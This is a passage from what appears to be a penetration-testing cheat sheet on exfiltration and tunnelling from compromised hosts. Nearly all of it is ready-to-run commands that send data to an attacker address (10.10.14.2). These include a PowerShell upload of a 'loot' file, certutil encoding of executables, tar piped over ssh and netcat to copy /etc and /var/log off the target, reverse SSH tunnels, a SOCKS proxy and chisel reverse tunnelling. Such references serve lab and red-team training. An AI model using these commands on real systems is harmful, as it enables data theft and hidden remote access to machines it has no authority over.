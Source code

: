 ```powershell
$Body = Get-Content "C:\Temp\loot.txt" -Raw
Invoke-RestMethod -Uri "http://10.10.14.2/upload" -Method POST -Body $Body
```

#### 🔹 Certutil Encode

```cmd
certutil -encode file.exe file.b64
type file.b64
```

Then decode on your end:

```bash
base64 -d file.b64 > file.exe
```

***

### IX. 🧱 File Sync Between Targets

#### 🔹 SSH Pipe

```bash
tar cf - /etc | ssh user@10.10.14.2 'tar xf - -C /backup/'
```

#### 🔹 Netcat Pipe

```bash
tar cf - /var/log | nc 10.10.14.2 9001
```

***

### X. 🧠 Tunneling / Proxy Transfers

#### 🔹 SSH Tunnel

```bash
ssh -R 9000:localhost:80 user@10.10.14.2
```

#### 🔹 SOCKS Proxy via SSH

```bash
ssh -D 1080 user@10.10.14.2
```

#### 🔹 Chisel (binary tunnel)

```bash
# server
chisel server -p 8080 --reverse
# client
chisel client 10.10.14.2:8080 R:9001:localhost:9001
```
